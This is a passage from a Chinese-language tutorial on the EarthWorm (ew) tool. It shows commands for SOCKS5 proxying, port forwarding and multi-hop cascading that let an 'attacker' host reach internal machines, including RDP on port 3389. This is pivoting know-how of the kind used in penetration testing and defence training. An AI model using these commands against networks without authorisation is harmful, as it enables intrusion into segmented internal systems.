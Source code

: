 ```powershell
curl http://172.16.2.8 -x socks5://172.16.1.144:1080
```

client <-> attacker 1080 <-> attacker 8888 <-> server

## 端口转发

这里着重说一下`lcx_tran`、`lcx_listen`、`lcx_slave`的用法。

案例一：

在attacker中启动一个socks5代理，端口是9999

```powershell
ew -s ssocksd -l 9999
```

**然后通过`lcx_tran`来转发9999到1080**

```powershell
ew.exe -s lcx_tran -l 1080 -f 127.0.0.1 -g 9999
```

然后就能从client访问server了

```powershell
curl http://172.16.2.8 -x socks5://172.16.1.144:1080
```

实际上还是用attacker搭了一个socks5代理，**这个例子主要说的是lcx_tran的使用方法**。

 案例二：
attacker:

```powershell
ew.exe -s lcx_listen -l 1234 -e 8888
```
server: 
```powershell
ew.exe -s lcx_slave -d 192.168.1.100 -e 8888 -f 127.0.0.1 -g 3389
```

原理和lcx一样

## 多级级联

假如我们当前的网络环境如下

```powershell
a: 192.168.1.100
b: 192.168.1.101,10.0.0.1
c: 10.0.0.2,172.16.0.1
d: 172.16.0.2
```
那么我们怎么做才能让a访问到d的资源呢？

ew提供了多级级联

```powershell
a: ew.exe -s lcx_listen -l 1080 -e 8888
b: ew.exe -s lcx_slave -d 192.168.1.100 -e 8888 -f 10.0.0.2  -g 9999
c: ew.exe -s lcx_tran -l 9999 -f 172.16.0.2 -g 3389
```
